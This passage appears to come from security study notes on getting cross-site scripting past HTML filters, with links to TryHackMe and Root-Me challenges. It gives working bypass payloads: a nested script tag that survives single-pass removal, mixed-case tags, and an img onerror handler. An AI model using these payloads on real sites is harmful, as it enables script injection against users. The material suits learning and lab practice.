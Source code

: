 <div class="row row-cols-lg-2"><div>

#### HTML — Tags/Attributes Filtering Bypass

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)

Many filtering functions will only process the text once. If we know that a specific pattern or keyword is filtered, we can use a payload that works after being filtered. If there is a filter removing `<script>`:

* Payload: `<s<script>cript>alert('XSS');</s<script>cript>`
* Payload Filtered: `<script>alert('XSS');</script>`

You can also try variants if the filter is case-sensitive:

```html!
<scIpT>alert('XSS');</scIpT> <!-- script filtered -->
<img src="" ONERROR="alert('XSS')" /> <!-- onerror filtered -->
```

Not all tags may be banned. Try: `a`, `img`, `button`, `object`, `svg`, etc.

<br>

#### HTML — Attribute Value Filtering Bypass

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![csp_bypass_nonce](../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
[![xss_dom_based](../../../../_badges/rootme/web_client/xss_dom_based.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
